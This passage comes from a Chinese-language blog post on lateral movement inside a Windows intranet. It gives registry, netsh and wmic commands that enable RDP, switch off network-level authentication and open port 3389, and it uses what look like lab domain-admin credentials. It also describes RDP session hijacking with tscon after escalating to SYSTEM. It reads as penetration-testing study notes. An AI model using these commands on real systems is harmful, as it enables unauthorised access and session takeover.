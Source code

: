 该命令与SC创建系统服务结合能进行远程UAC关闭(或许能成，但是写入的服务没有双引号指定路径)

##  远程桌面利用

远程桌面协议(RDP)，默认监听端口为3389，通过已获得的凭据进行代理登录远程主机并进行实时操控

缺点：可能导致对方用户强行下线，易被发现

### 远程桌面的确定和开启

执行以下命令来确定本机的远程桌面功能是否开启

```
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections 
```

![pc-rdp-close](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/pc-rdp-close.png)

如图为0x1说明已禁用，0x0为开启，执行以下命令开启本地RDP服务

```
#开启服务
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
#关闭“仅允许运行使用网络级别身份验证的远程桌面计算机连接”(鉴权)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 
#设置防火墙策略放行3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

![pc-rdp-open](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/pc-rdp-open.png)

对远程主机，可使用WMI来开启远程桌面服务

```
wmic /Node:192.168.30.10 /User:Administrator /Password:uu2fu3o@admin RDTOGGLE WHERE ServerName="DC" call SetAllowTSConnections 1
```

![pc-wmi-dc-rdp-open](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/pc-wmi-dc-rdp-open.png)

需要指定远程主机的IP，主机名，用户凭据(这里用的域管用户)

### RDP Hijacking

需要SYSTEM权限，并执行tscon命令

通过query user命令可以查看当前主机上存在哪些会话

![pc-query-user](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/pc-query-user.png)

通过msf提权到SYSTEM权限，使用以下命令

```
tscon id
```
